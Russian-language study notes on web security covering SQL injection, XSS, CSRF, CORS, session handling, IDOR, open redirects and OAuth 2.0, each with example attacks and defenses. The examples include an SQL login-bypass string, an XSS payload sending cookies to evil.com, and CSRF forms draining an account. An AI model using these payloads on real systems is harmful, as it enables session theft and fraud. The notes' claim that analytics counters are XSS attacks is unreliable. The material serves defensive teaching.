

# Безопасность, уязвимости и методы защиты приложений

**Идентификация** — процесс распознавания пользователя по его идентификатору.

**Аутентификация** — процедура проверки подлинности, доказательство что пользователь именно тот, за кого себя выдает.

**Авторизация** — предоставление определённых прав.

## SQL Injections
Внедрение специального кода в приложение при недостаточной/отсутствующей проверке данных от пользователя

**ПРИМЕР**:
+ Общими словами: при отправке данных через инпуты или в виде параметров в урл,
SQL инъекция может внести какие-то неправомерные изменения данных или структуры данных
+ Технически (отключаем проверку пароля):
    + SQL-инъекция в запросе ('%20' - это пробел, '--' - это начало комментария чтобы отбросить пароль):
    ```
    site.com?username=admin'%20--%20&pass='1'
    ```
    + Небезопасная обработка параметров на сервере:
    ```
    String sql = "select * from user where username = '" + username + "' and pass= '" + pass + "'";
    ```

**ЗАЩИТА**:
+ Фильтрация параметров, работающих с базой данных
    + Проверка валидности числовых параметров
    + Проверка валидности строковых параметров
    + Экранирование символов
    + В Java SE при передаче параметров в SQL-запрос вместо конкатенации запроса использовать PreparedStatement - 
    он автоматически экранирует ковычки
    + В Hibernate использовать named params вместо конкатенации (для HQL или native query)

        
## XSS (Cross Site Scripting)
Межсайтовый скриптинг - ошибка валидации пользовательских
данных, которая позволяет передать JavaScript код на исполнение в
браузер пользователя.

Атаки такого рода часто также называют ```HTML-инъекциями```,
 ведь механизм их внедрения очень схож с SQL-инъекциями,
но в отличие от последних, внедряемый код исполняется в браузере

**ПРИМЕР**:
+ Общими словами: например, размещаем комментарий со скриптом, отправляющим куки или ID сессии пользователя на сторонний сервер злоумышленника.
+ Технически: внедряем в БД приложения скрипт, который при появлении на UI будет совершать вредоносные действия 
(например отправка куков жертвы на сторонний сайт):
    + Через известные параметры в урл 
    ```
    http://vulnsite.com/search.php?q=<script>XSS();</script>
    ```
    + Через инпуты, например, созданием коммента с вредоносным скриптом, который будет срабатывать при открытии страницы пользователями
    ```javascript
    <script>document.location="https://www.evil.com?foo="+document.cookie</script>
    ```
    ```javascript
    
    ```
+ Демо пример: https://playground.learnqa.ru/demo/xss
+ Практически любой счетчик посещений сайта или аналитический инструмент по типу Google Analytic является XSS атакой, собирая данные о посетителях.
+ Кроссдоменные AJAX запросы также можно отнести к безвредным XSS атакам.
+ Пассивные - это XSS, которые требуют от жертвы непосредственного участия (открыть ссылку, щелкнуть по картинке и т.д.)
+ Активные - это XSS, которые не требуют никаких действий со стороны жертвы - ей достаточно лишь открыть страницу с XSS и скрипт автоматически запустится

**ЗАЩИТА**:
+ Фильтрация параметров входных данных
+ Кодирование входных данных
+ Экранирование спецсимволов HTML
+ Где возможно отображать информацию через textContent (innerHTML не экранирует тэги) 
+ На JSP использовать станд. тэг ```<c:out value="${object.field}"/>```


## CSRF (Cross-Site Request Forgery)
Межсайтовая подделка запроса. Работает только при наличии сессионных Cookie. [Статья про CSRF](https://habr.com/ru/companies/oleg-bunin/articles/412855/)

**ПРИМЕР**:
+ Предполагается, что жертва предварительно прошла аутентификацию в платежной системе и у неё открыта активная сессия с сессионными Cookie (скажем, страница платежной системы открыта в другой вкладке браузера).
+ Вариант 1 (изменение состояний сервера через GET). Жертве скидывают ссылку на страницу банка, в которой уже прописаны параметры типа `transaction`, `amount`, `target_account` -
 при переходе по ней и выполнении GET запроса происходит перевод денег на счет злоумышленника
+ Вариант 2 (уязвимая обработка данных с форм). Жертва заходит на сайт, созданный злоумышленником, который от её лица отправляет запрос на сервер банка через форму:
```html
<h1>You Are a Winner!</h1>
  <form action="http://example.com/api/account" method="post">
    <input type="hidden" name="transaction" value="withdraw" />
    <input type="hidden" name="amount" value="1000000" />
    <input type="hidden" name="target_account" value="evil" />
  <input type="submit" value="Click Me"/>
</form>
```
или XHR API (XmlHttpRequest):
```html
<script>
var request = new XMLHttpRequest();
var data = 'transaction=withdraw&amount=1000000&target_account=evil';
request.open('POST', ' https://example.com/api/account ', true);
request.withCredentials = true; //INCLUDE COOKIES
request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
request.send(data);
</script>
```

**ЗАЩИТА**:
+ Наиболее кардинальный и работающий вариант защититься от CSRF-атак — это избавиться от сессий с куками и использовать header с авторизационным токеном.
+ Все действия изменияющие серверное состояние делать через POST, т.к.:
    + Если жертве подбросили плохую ссылку, то открыв ее в браузере будет GET и сервер не станет ее обрабатывать 
    + POST скрывает параметры в теле (тип form-data)
+ Добавление CSRF токена. 
    + Под токеном имеется в виду случайный набор байт, который сервер передает клиенту, а клиент возвращает серверу.
    Защита сводится к проверке токена, который сгенерировал сервер, и токена, который прислал пользователь.
    + ПОДРОБНЕЕ О ТОКЕНАХ
        + При старте сессии на стороне сервера генерируется токен.
        + Токен кладется в хранилище данных сессии (т.е. сохраняется на стороне сервера для последующей проверки)
        + В ответ на запрос (который стартовал сессию) клиенту возвращается токен.
        + Если рендеринг происходит на сервере, то токен может возвращаться внутри HTML, как, например, одно из полей формы, или внутри ```<meta>``` тега 
        + В случае, если ответ возвращается для JS приложения, токен можно передавать в header (часто для этого используют X-CSRF-Token)
        + При последующих запросах клиент обязан передать токен серверу для проверки.
        + При рендере контента сервером токен принято возвращать внутри POST данных формы.
        + JS приложения обычно присылают XHR запросы с header (X-CSRF-Token), содержащим токен.
        + При получения запроса небезопасным методом (POST, PUT, DELETE, PATCH) сервер обязан проверить на идентичность токен из данных сессии и токен, который прислал клиент.
        + Если оба токена совпадают, то запрос не подвергся CSRF-Атаке, в ином случае — логируем событие и отклоняем запрос.


## CORS (Cross-Origin Resource Sharing)
Механизм, использующий дополнительные HTTP-заголовки, чтобы дать возможность агенту пользователя (например браузеру) получать разрешения на доступ к выбранным ресурсам с сервера на источнике (также называют домен или origin), отличном от того, что сайт использует в данный момент. 

Реализуется в браузерах с помощью сравнения источника текущего сайта с источником запрашиваемого и выполнения предварительных запросов на запрашиваемый сервер (по умолчанию методом OPTIONS)

Для настройки CORS со стороны сервера используются специальные заголовки запроса:
+ `Access-Control-Allow-Origin` - указывает на источник (origin), откуда на сервер разрешены запросы (можно указать несколько).
+ `Access-Control-Allow-Methods` - указывает, какие HTTP-методы разрешены для запросов на сервер. Например, GET, POST, DELETE.
+ `Access-Control-Allow-Headers` - определяет, какие заголовки могут быть использованы в ответе от сервера, которые не являются стандартными для HTTP.
+ `Access-Control-Allow-Credentials` - указывает, разрешено ли отправлять cookie и авторизационные данные вместе с запросом на сервер. Для разрешения используется значение true.
+ `Access-Control-Max-Age` - определяет максимальное время, в течение которого должны кэшироваться предыдущие ответы на запросы предварительной проверки CORS.
+ `Access-Control-Expose-Headers` - определяет список заголовков, которые могут быть доступны на клиентской стороне.

Также есть заголовок для настройки со стороны браузера:
+ `Origin` - указывает на комбинацию домена, порта и протокола, откуда на сервер поступает запрос.

И заголовки для настройки предварительных запросов:
+ `Access-Control-Request-Method` - определяет метод запроса, который будет использоваться в основном запросе.
+ `Access-Control-Request-Headers` - используется для указания заголовков, которые будут использоваться в основном запросе.

**Spring Security**. Используя этот фреймворк, не требуется вручную настравивать указанные заголовки для каждого ендпойнта. Они задаются на уровне конфигурации

[Подробнее о CORS](https://habr.com/ru/companies/macloud/articles/553826/)


## Broken Authentication and Session Management
Неправильная реализация механизмов аутентификации и сессий

**Пояснение о сессионных куках(sessionId/JSESSIONID и др.)**

Для того, чтобы отличать одного пользователя от другого, 
web-приложение использует так называемые сессионные куки. 
После того, как Вы ввели логин и пароль и приложение вас авторизовало, 
в хранилище браузера сохраняется специальный идентификатор, 
который браузер в дальнейшем предъявляет серверу при каждом запросе страницы вашего web-приложения. 
Именно так web-приложение понимает, что Вы это именно Вы.

**ПРИМЕР**:
+ Broken Authentication - злоумышленник раздобыл чужой логин и смог авторизоваться с помощью подбора пароля. Причины:
    + Разрешаем автоматические атаки (не имеем капчи)
    + Разрешаем слабые или известные пароли, такие как «Пароль: 1» или «admin / admin»
    + Используем простые текстовые, не зашифрованные или слабо хешированные пароли
    + Отсутствует или неэффективна многофакторная аутентификация
+ Broken Session Management - злоумышленник раздобыл чужой sessionId и смог под ним зайти в чужую сессию. Причины:
    + Передача важных данных в составе строки GET-запроса (если передать ссылку кому-то, то он сможет получить доступ к вашему аккаунту)
    + Незащищенная кука ```sessionId``` (отсутствуют флаги ```Secure```, ```HTTPonly``` и др.)

**ЗАЩИТА**:
+ Передача учетных данных по HTTPS
+ Многофакторная аутентификация для предотвращения автоматических атак
+ Проверка плохих паролей
+ Не отправлять данные аутентификации и сеанса методом GET (только POST)
+ Куки ID сессии должны защищаться флагами:
    + ```Secure``` - передача только по SSL/HTTPS
    + ```HTTPonly``` - Куки HTTPonly не доступны из JavaScript через свойства ```document.cookie``` API
    + И опционально одним из (если их не указывать, то куки хранятся до окончания сессии - закрытия браузера):
        + ```Expire=<date>``` - дата истечения срока действия куков
        + ```Max-Age=<number>``` - количество секунд до истечения срока действия куков
+ ```AUTOCOMPLETE=OFF``` - предотвращение автозаполнения полей авторизационных данных
+ Проверка IP-адреса сессии - каждый юзер со своим IP (только для статических IP)
+ Проверки наличия более одного соединения в одной сессии


## Insecure Direct Object References
Незащищенные ресурсы и объекты.

Суть уязвимости заключается в том, что при выводе каких-либо конфиденциальных данных, например личных сообщений или учетных карточек клиентов, 
для доступа к объекту используется идентификатор, который передается в открытом виде в адресной строке браузера, 
и не реализована проверка прав доступа к объектам.

**ПРИМЕР**:
+ Например, есть страница, которая отображает личное сообщение и она имеет адрес вида:
```mysite.ru/read_message.jsp?id=123654```
+ Перебором ID-шников можно будет читать чужие сообщения

**ЗАЩИТА**:
+ Непередавать внутренние идентификаторы, либо проверять наличие прав доступа на них


## Security Misconfiguration
Небезопасная конфигурация окружения.

Безопасность Web-приложения требует наличия безопасной
  конфигурации всех компонентов инфраструктуры: компонентов
  приложения (таких как фреймворки – frameworks), веб-сервера, сервера
  баз данных и самой платформы. Настройки компонентов сервера по-
  умолчанию зачастую небезопасны и открывают возможности к атакам.

**ПРИМЕР**:
+ Например, кража сессионной cookie через JavaScript при XSS-атаке
        становится возможна благодаря выключенной по-умолчанию настройке
        cookie_http only.

**ЗАЩИТА**:
+ Всегда проверять настройки БД, сервера, фреймворков и т.д.


## Missing Function Level Access Control
Отсутствие проверки прав доступа на уровне функций

Большинство веб-приложений проверяют права доступа, прежде чем
  отобразить данные в пользовательском интерфейсе. Тем не менее,
  приложения должны выполнять те же проверки контроля доступа на
  сервере при запросе любой функции. Ведь есть еще множество
  вспомогательных служебных запросов, которые, зачастую отправляются
  в фоновом режиме асинхронно, при помощи технологии AJAX.

**ПРИМЕР**:
+ Частный, и пожалуй, самый распространенный случай данной
      уязвимости мы уже рассмотрели в ```Insecure Direct Object References``` – отсутствие
      проверки пользователя в личных сообщениях.

**ЗАЩИТА**:
+ Дополнительные проверки прав доступа в подзапросах


## Using Components with Known Vulnerabilities	
**ПРИМЕР**:
+ Использование компонентов с известными уязвимостями

**ЗАЩИТА**:
+ Использовать последние версии компонентов и следить за появляющимися известными уязвимостями на сайтах типа securityfocus.com.


## Unvalidated Redirects and Forwards
Непроверенные переадресации и пересылки.

Злоумышленник скидывает ссылку жертве, домен кажется правильным, но в параметрах на редирект указан вредоносный сайт

**ПРИМЕР**:
+ Безвердный редирект:
```
http://www.mysite.com/redirect?url=mysite.com/profile
```
+ Редирект на хакерский сайт
```
http://www.mysite.com/redirect?url=malicous.com/attack
```

**ЗАЩИТА**:
+ Не позволять редиректы с вводом от пользователя
+ Выдавать предупреждение типа: "Вы переходите на непроверенный ресурс"
+ Белый список урлов


## Протокол OAuth 2.0
Имеется какое-то клиентское приложение. 

Оно авторизует пользователя у себя с помощью стороннего провайдера (например Google или другие известные системы где пользователи часто имеют аккаунты) получая от провайдера только открытые авторизационные данные пользователя и не имея доступа к его паролям. 

Провайдер выдает клиенту временный токен, с помощью которого клиент сможет получить доступ к неким защищенным ресурсам юзера (например фото в Google Фото) 



1. Клиентское приложение предлагает юзеру перейти на страницу авторизации провайдера
2. Юзер логинится на странице провайдера и предоставляет разрешение клиенту, провайдер редиректит на домен клиента и передает некий уникальный code юзера (также есть state для защиты от CSRF)
3. Клиент должен быть заранее зарегестрирован у провайдера и иметь статические client_id и client_secret. Используя их он передает ранее полученный code юзера в сервер авторизации провайдера
4. Если в п. 3 все креды верные, то в ответ клиенту приходит access_token юзера
5. Исспользуя access_token может запрашивать защищенные ресурсы юзера
6. Если токен свежий, то ресурсные сервера предоставляют запрашиваемые ресурсы

#### OAuth 2.0 в микросервисах
+ Пример с UI (регистрацию нового юзера в провайдере не рассматриваем, она не входит в протокол OAuth 2.0)
    + UI авторизует юзера отправляя его login/pass на auth-server
    + auth-server ищет юзера в БД, если все ок, то возвращает access_token
    + UI сохраняет access_token в localStorage и далее делает все запросы к resource-server используя access_token
    + resource-server проверяет токен запросом к auth-server
+ Пример взаимодействия сервер-сервер
    + client-server заранее зарегистрирован на auth-server с client_id/client_secret
    + client-server получает свой сервисный access_token делая запрос в auth-server с client_id/client_secret в хедере Authorization
    + client-server, используя access_token, делает запросы в resource-server
    + client-server1 может быть одновременно resource-server для client-server2 
